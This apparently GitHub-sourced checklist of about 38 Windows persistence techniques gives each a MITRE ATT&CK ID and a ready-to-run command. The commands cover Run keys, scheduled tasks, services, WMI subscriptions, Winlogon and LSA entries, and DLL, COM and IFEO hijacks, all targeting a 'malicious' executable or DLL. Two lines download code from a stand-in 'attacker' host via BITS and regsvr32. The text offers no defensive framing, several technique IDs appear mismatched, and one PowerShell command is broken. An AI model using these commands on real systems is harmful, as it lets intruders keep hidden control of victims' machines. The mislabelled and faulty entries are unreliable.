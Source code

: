# Windows Persistence Techniques

- [ ] **Registry Run Key (HKCU) (T1547.001)**  
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **Registry Run Key (HKLM) (T1547.001)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **Startup Folder Shortcut (T1547.001)**  
```powershell
copy "C:\malicious.lnk" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
```

- [ ] **All Users Startup Folder (T1547.001)**  
```powershell
copy "C:\malicious.lnk" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

- [ ] **Scheduled Task At Logon (T1053.003)**  
```powershell
schtasks /Create /SC ONLOGON /TN "Updater" /TR "C:\malicious.exe" /RL HIGHEST
```

- [ ] **Scheduled Task At Startup (T1053.003)**  
```powershell
schtasks /Create /SC ONSTARTUP /TN "Updater" /TR "C:\malicious.exe" /RL HIGHEST
```

- [ ] **Scheduled Task On Event (T1053.005)**  
```powershell
schtasks /Create /SC ONEVENT /TN "Updater" /TR "C:\malicious.exe" /EC Application /MO "*[System[EventID=1000]]"
```

- [ ] **Windows Service (T1543.003)**  
```powershell
sc create MalService binPath= "C:\malicious.exe" start= auto
```

- [ ] **WMI Event Subscription (T1546.003)**  
```powershell
powershell "$filter = Set-WmiInstance -Namespace Root\Subscription -Class __EventFilter -Argument @{Name='MyFilter';QueryLanguage='WQL';Query='SELECT * FROM __InstanceModificationEvent ...'}; $consumer = Set-WmiInstance -Namespace Root\Subscription -Class CommandLineEventConsumer -Argument @{Name='MyConsumer';CommandLineTemplate='C:\malicious.exe'}; Set-WmiBinding -Filter $filter -Consumer $consumer"
```

- [ ] **DLL Search Order Hijacking (T1574.001)**  
```powershell
copy malicious.dll "C:\Program Files\App\xmllite.dll"
```

- [ ] **AppInit_DLLs (T1547.004)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\malicious.dll" /f
```

- [ ] **Image File Execution Options (T1546.005)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **COM Hijacking (T1546.002)**  
```powershell
reg add "HKCU\Software\Classes\CLSID\{CLSID-GUID}\InprocServer32" /ve /t REG_SZ /d "C:\malicious.dll" /f
```

- [ ] **BITS Job (T1197)**  
```powershell
powershell "Import-Module BitsTransfer; Start-BitsTransfer -Source 'C:\malicious.exe' -Destination 'C:\Windows\Temp\malicious.exe'; $job = Start-BitsTransfer -Source 'http://attacker/payload.exe' -Destination 'C:\Windows\Temp\payload.exe' -Description 'Updater';$job | Set-BitsTransfer -NotifyFlags Transferred; $job | Resume-BitsTransfer"
```

- [ ] **Security Support Provider (T1547.005)**  
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa\Security Packages" /t REG_MULTI_SZ /d "malicious" /f
```

- [ ] **Authentication Package (T1547.002)**  
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa\Authentication Packages" /t REG_MULTI_SZ /d "malicious" /f
```

- [ ] **Winlogon Notify (T1547.004)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\Updater" /v DLLName /t REG_SZ /d "C:\malicious.dll" /f
```

- [ ] **Winlogon Userinit (T1547.004)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe, C:\malicious.exe" /f
```

- [ ] **Winlogon Shell (T1547.004)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "explorer.exe C:\malicious.exe" /f
```

- [ ] **PowerShell Profile (T1546.011)**  
```powershell
powershell "Add-Content -Path $profile -Value 'C:\malicious.exe'"
```

- [ ] **Active Setup (T1547.006)**  
```powershell
reg add "HKLM\Software\Microsoft\Active Setup\Installed Components\{12345678-1234-1234-1234-1234567890AB}" /v StubPath /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **Browser Helper Object (T1176)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\{GUID}" /ve /t REG_SZ /d "C:\malicious.dll" /f
```

- [ ] **Office Trusted Location (T1218)**  
```powershell
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\Trusted Locations\Location1" /v Path /t REG_SZ /d "C:\malicious" /f
```

- [ ] **MSHTA Execution (T1170)**  
```powershell
reg add "HKCU\Software\Classes\ms-its\shell\open\command" /ve /t REG_SZ /d "mshta C:\malicious.hta" /f
```

- [ ] **URL Protocol Handler (T1189)**  
```powershell
reg add "HKCR\myapp\shell\open\command" /ve /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **Installer Package (T1218.011)**  
```powershell
regsvr32 /s /n /i:"http://attacker/malicious.dll" scrobj.dll
```

- [ ] **Time Provider (T1547.003)**  
```powershell
reg add "HKLM\System\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v Enabled /t REG_DWORD /d 1 /f
```

- [ ] **RunOnce Key (T1547.001)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v "Updater" /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **RunOnceEx Key (T1547.001)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\Updater" /v 1 /t REG_SZ /d "C:\malicious.exe" /f
```

- [ ] **Shell Extensions (T1547.008)**  
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Shell Extensions\Approved" /ve /t REG_SZ /d "{GUID}" /f
```

- [ ] **Group Policy Preferences (T1569.002)**  
```powershell
REGEDIT5
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Group Policy\Preferences\ScheduledTasks\Task1]
"TaskName"="Updater"
"Action"="Create"
"CommandLine"="C:\malicious.exe"
```

- [ ] **Shortcut Modification (T1023)**  
```powershell
powershell "(New-Object -ComObject WScript.Shell).CreateShortcut('$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk').TargetPath='C:\malicious.exe';$_.Save()"
```

- [ ] **MsiExec Persistence (T1568.002)**  
```powershell
msiexec /i C:\malicious.msi /qn
```

- [ ] **CPL File Hijack (T1547.002)**  
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\ControlPanel\NameSpace\{GUID}" /ve /t REG_SZ /d "C:\malicious.dll" /f
```

- [ ] **Custom Protocol Hijack (T1189)**  
```powershell
reg add "HKCU\Software\Classes\ms-screenclip\shell\open\command" /ve /t REG_SZ /d "C:\malicious.exe \"%1\"" /f
```

- [ ] **Ntfs Transactional File (T1560)**  
```powershell
powershell "Start-Transaction; Copy-Item C:\malicious.exe -Destination C:\Windows\Temp\mal.exe -Transacted; Complete-Transaction"
```

- [ ] **AppCert DLLs (T1546.008)**  
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Session Manager" /v AppCertDLLs /t REG_MULTI_SZ /d "C:\malicious.dll" /f
```

- [ ] **Service Trigger (T1543.004)**  
```powershell
sc triggerinfo MalService start/onconnect type=0x13
```

